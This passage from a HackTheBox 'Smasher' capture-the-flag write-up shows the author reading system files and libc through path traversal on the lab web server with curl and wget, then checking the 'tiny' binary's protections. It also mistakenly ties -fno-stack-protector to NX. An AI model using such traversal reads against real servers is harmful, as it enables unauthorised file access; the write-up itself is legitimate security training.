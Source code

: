 Downloaded all of them. Great thing is that we have actual source code,
which will speed up the whole process. Next i wanted to see, because i
knew what my target was, is ASLR on the server enabled, and what can i
do about it?

First, i\'ve checked version of the system:

``` bash

[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/issue
Ubuntu 16.04.4 LTS \n \l
```

After that i tried to read /proc/sys/kernel/randomize~vaspace~, and for
some reason ( permissions) i couldn\'t read that file. So i assumed the
worst, and tried to get libc.so.6 so i can use it later.

``` bash

wget http://10.10.10.89:1111//lib/x86_64-linux-gnu/libc.so.6
```

## Libc inspection

So, now, what i usually like to do is, identify version of libc, in this
case i\'ve had access to /etc/issue so i already know, i procceded
futher to get docker container with radare2, ropper, pwndbg and
libc-database, and few other tools, up and running on Ubuntu 16.04 x64.
Let\'s start analysing tiny file, which is the binary for web server.

``` bash

root@--name:/ctf/work$ file tiny
tiny: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b872377623aa9e081bc7d72c8dbe882f03bf66b7, not stripped

root@--name:/ctf/work$ ldd tiny
linux-vdso.so.1 =>  (0x00007ffc7b9a4000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f846ddf0000)
/lib64/ld-linux-x86-64.so.2 (0x00007f846e1ba000)
```

Not stripped, huray.

I\'ve checked strings, as usual, but didn\'t saw nothing specialy
useful. Except maybe this one:

``` bash

GNU C99 5.4.0 20160609 -mtune=generic -march=x86-64 -g -O2 -std=c99 -fno-stack-protector
```

NX is disabled, if you are to belive this one -fno-stack-protector, so i
checked.

``` bash

root@--name:/ctf/work# gdb -q tiny
Reading symbols from tiny...done.
pwndbg> checksec
[*] '/ctf/work/tiny'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    FORTIFY:  Enabled

```